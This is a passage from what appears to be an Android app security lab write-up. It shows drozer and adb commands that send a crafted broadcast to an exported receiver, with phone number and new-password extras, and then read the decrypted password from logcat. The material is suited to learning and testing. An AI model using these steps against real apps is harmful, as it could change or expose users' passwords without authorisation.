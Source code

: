 ![broadcast_3](/assets/images/test/broadcast_3.png) 

On the I installed the drozer-agent in the android emulator and configured the drozer session to be connected via usb.
```cmd
adb forward tcp:31415 tcp:31415
drozer console connect
```

On another terminal window, i use adb to view logcat
```cmd
adb logcat
```

On the drozer console, i ran the following command below that uses the `theBroadcast` action, passing two string parameters which are required for the receiver to be triggered.
```cmd
run app.broadcast.send --action theBroadcast --extra string phonenumber 123456789 --extra string newpass supersecurepass
```

The plain password is decrypted in textMessage and logged in logcat.
![broadcast_4](/assets/images/test/broadcast_4.png) 
